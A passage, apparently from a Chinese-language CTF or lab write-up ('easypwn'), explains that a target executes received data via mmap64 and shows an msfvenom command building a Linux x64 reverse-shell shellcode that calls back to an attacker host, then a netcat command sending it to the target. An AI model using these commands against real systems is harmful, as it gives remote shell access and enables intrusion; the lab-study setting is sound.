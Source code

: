 ```
\x00\x20\x0F\xCD\x09\x22\x0A
```

然后进入到下一步

如果数据合法，程序通过 `mmap64` 将接收到的数据映射到内存中，并调用它（即执行这些数据）。如果映射失败，程序会输出错误并关闭连接。

![](./images/image-63.png)

因此接下来生成**shellcode**发送，并且监听

注意这里不要使用编码器👇

```
[root@kali] /home/kali/easypwn/opt  
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f raw  -b '\x00\x20\x0F\xCD\x09\x22\x0A' -o shellcode_raw.bin
```

另起一个**multi/handler**，然后发送给端口即可

```
[root@kali] /home/kali/easypwn/opt  
❯ cat shellcode_raw.bin | nc 192.168.56.105 6666
```
